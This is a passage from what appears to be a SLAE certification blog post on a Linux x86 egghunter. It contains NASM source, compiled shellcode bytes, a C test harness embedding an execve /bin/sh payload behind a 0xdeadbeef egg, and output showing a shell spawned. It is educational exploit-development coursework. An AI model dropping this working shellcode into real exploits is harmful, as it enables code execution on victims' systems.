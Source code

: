 ```nasm
    cmp [edx], esi
    jnz next_byte

    ; search again for 2nd copy of the egg (avoid matching code itself)
    cmp [edx+4], esi
    jnz next_byte

    ; egg found, jump to shellcode
    lea esi, [edx + 8]
    jmp esi
```

Compiling the shellcode with NASM:
```
slemire@slae:~/slae32/assignment3$ ../compile.sh egghunter
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Shellcode: \x31\xc9\xf7\xe1\xbe\xef\xbe\xad\xde\x66\x81\xca\xff\x0f\x42\x31\xc0\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xed\x39\x32\x75\xee\x39\x72\x04\x75\xe9\x8d\x72\x08\xff\xe6
[+] Length: 42
[+] Done!
```

To test the egghunter shellcode, a skeleton C program is used. The `buffer` array contains a simple execve shellcode prepended by two copies of the egg `0xdeadbeef` (in little-endian format).
```c
#include <stdio.h>

char buffer[1024] = "\xef\xbe\xad\xde\xef\xbe\xad\xde\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
char shellcode[] = "\x31\xc9\xf7\xe1\xbe\xef\xbe\xad\xde\x66\x81\xca\xff\x0f\x42\x31\xc0\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xed\x39\x32\x75\xee\x39\x72\x04\x75\xe9\x8d\x72\x08\xff\xe6";

int main()
{
        int (*ret)() = (int(*)())shellcode;
        printf("Size: %d bytes.\n", sizeof(shellcode)); 
        ret();
}
```

The following output shows that the shellcode works as intended and is able to locate the egg and execute the 2nd stage payload.
```
slemire@slae:~/slae32/assignment3$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
slemire@slae:~/slae32/assignment3$ ./shellcode
Size: 43 bytes.
$ id
uid=1000(slemire) gid=1000(slemire) groups=1000(slemire),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
